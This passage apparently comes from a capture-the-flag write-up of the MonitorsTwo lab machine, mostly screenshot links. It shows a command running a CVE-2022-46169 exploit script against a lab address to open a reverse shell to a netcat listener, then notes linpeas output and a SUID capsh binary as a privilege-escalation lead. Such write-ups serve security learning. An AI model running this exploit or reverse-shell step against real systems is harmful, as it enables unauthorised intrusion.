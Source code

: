 - so running `python3 CVE-2022-46169.py -u http://10.10.11.211/ --LHOST=10.10.14.86 --LPORT=4444`

![](assets/MonitorsTwo_assets/Pasted%20image%2020230902132708.png)

- we can see that we get a reverse shell in our nc listener

![](assets/MonitorsTwo_assets/Pasted%20image%2020230902132756.png)

## Possible privilege Escalation??
- So we run our linpeas script and the first things we notice are the interesting files in root, but we'll come back to that in a few minutes

![](assets/MonitorsTwo_assets/Pasted%20image%2020230902163754.png)

- we can also see that we have a binary capsh with a SUID bit

![](assets/MonitorsTwo_assets/Pasted%20image%2020230902163952.png)
